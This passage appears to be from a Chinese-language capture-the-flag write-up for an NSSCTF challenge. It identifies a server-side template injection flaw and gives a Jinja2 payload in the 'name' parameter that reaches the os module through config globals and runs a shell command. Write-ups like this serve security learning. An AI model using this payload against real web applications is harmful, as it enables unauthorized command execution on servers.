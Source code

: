 ![image-20250817110902485](./NSSCTF-6.assets/image-20250817110902485.png)

可以确定ssti模版

```
?name={{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
